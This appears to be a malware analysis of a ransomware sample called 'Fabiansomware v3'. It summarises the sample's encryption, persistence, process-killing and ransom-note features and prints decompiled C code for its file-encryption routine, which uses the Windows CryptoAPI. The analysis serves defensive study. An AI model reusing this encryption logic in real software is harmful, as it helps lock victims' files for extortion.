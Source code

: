 ## Overview

Fabiansomware v3 is a malicious program designed to encrypt files on a victim's system, display a ransom demand, and ensure persistence. It leverages Windows APIs for file manipulation, encryption, and process management. The decompiled code provides a window into its operations, from file encryption to GUI creation.

### Key Features
- **File Encryption**: Encrypts files using Microsoft’s cryptographic APIs.
- **Directory Traversal**: Recursively scans drives for target files.
- **Persistence**: Registers itself in the Windows Registry.
- **Process Termination**: Kills specific system processes (e.g., Task Manager).
- **Ransom Note**: Generates a "How_To_Decrypt.txt" file.
- **GUI**: Displays a ransom demand window with a password field.

## Code Analysis

Let’s dive into the most significant functions and their roles.

### 1. Encryption Mechanism (`sub_401080`)

The `sub_401080` function handles file encryption. It uses the Windows Cryptographic API to encrypt files and renames them with a `.encrypted` extension.

```c
int __cdecl sub_401080(LPCWSTR lpFileName) {
  HANDLE FileW = CreateFileW(lpFileName, 0xC0000000, 7u, 0, 3u, 0, 0);
  if (FileW != (HANDLE)-1) {
    HCRYPTPROV phProv;
    HCRYPTHASH phHash;
    HCRYPTKEY phKey;
    if (CryptAcquireContextW(&phProv, 0, L"Microsoft Enhanced RSA and AES Cryptographic Provider", 0x18u, 0xF0000000)) {
      if (CryptCreateHash(phProv, 0x800Cu, 0, 0, &phHash)) {
        if (CryptHashData(phHash, (const BYTE *)pbData, 2 * lstrlenW(pbData), 0) &&
            CryptDeriveKey(phProv, 0x6610u, phHash, 5u, &phKey)) {
          DWORD pdwDataLen = GetFileSize(FileW, 0);
          void *v4 = VirtualAlloc(0, pdwDataLen, 0x3000u, 4u);
          if (ReadFile(FileW, v4, pdwDataLen, &NumberOfBytesRead, 0) &&
              CryptEncrypt(phKey, 0, 1, 0, (BYTE *)v4, &NumberOfBytesRead, pdwDataLen)) {
            WriteFile(FileW, v4, pdwDataLen, &NumberOfBytesRead, 0);
            WCHAR *v5 = (WCHAR *)VirtualAlloc(0, 0x400u, 0x1000u, 4u);
            wsprintfW(v5, L"%s.encrypted", lpFileName);
            MoveFileW(lpFileName, v5);
            sub_401000((int)lpFileName); // Creates "How_To_Decrypt.txt"
          }
        }
      }
    }
    CloseHandle(FileW);
  }
  return v1;
}
```
- **Process**: Opens the target file, acquires a cryptographic context, derives a key, encrypts the file content, and renames it.
- **Ransom Note**: Calls sub_401000 to create a decryption instruction file.
